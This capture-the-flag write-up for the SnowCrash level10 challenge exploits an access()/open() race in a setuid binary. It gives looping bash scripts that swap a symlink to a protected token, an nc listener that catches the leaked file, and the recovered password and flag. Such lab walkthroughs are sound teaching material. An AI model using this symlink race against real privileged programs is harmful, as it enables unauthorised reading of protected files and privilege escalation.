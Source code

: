 ## BONUS: Level10

We can see once again two files `token` and `level10`.

Obviously we can't read token, and we can execute `level10` passing it a file and an ip address!

As we can see in the [decompiled level10](./level10_decomp.c), it sends the content of the file we pass to the ip address through a socket.

We can use `nc` to capture this traffic. More specificaly, we can use `nc -l -k <ip> <port>` so that it keeps the connection alive while we spam it.

## Exploit

Speaking of spamming, the important part here are two syscalls in the executable:

```c
	iVar2 = access((char *)in_stack_00000008[1],4);
	// more blabla and checks
	iVar3 = open(pcVar6,0);
```

Access checks if the user executing the program could read the content of the file we pass as an argument, and open obviously tries to open it.
However, the fact that they are separated calls means one thing, there is a timing during which we can modify the file between `access` and `open`, abusing the first permission check.

### Our objective

We want the executable to check access on a file we created, so that we pass the check, then create a symlink from this file to the token for which we don't have access.

### How ?

Simply with two bash scripts:

The first one will take care of the file swapping thingy as such:

```bash
while [ 1 ]
do
        touch /var/crash/swap
        rm -rf /var/crash/swap
        ln -s ~/token /var/crash/swap
        rm -rf /var/crash/swap
done
```

And the second one which will spam our executable with the file we create until we have a wonderful result:

```bash
while [ 1 ]
do
        ./level10 /var/crash/swap 10.14.6.1
done
```

It's simply bruteforcing and we can see the result on nc when we launch both scripts:

```bash
~/Documents/42/snow_crash/level10/res (main*) » nc -l -k 10.14.6.1 6969
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
```

And that's how we can trick our program to get read a new file between two calls!

## Password

woupa2yuojeeaaed06riuj63c

## Token

```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ 
```

feulo4b72j7edeahuete3no7c
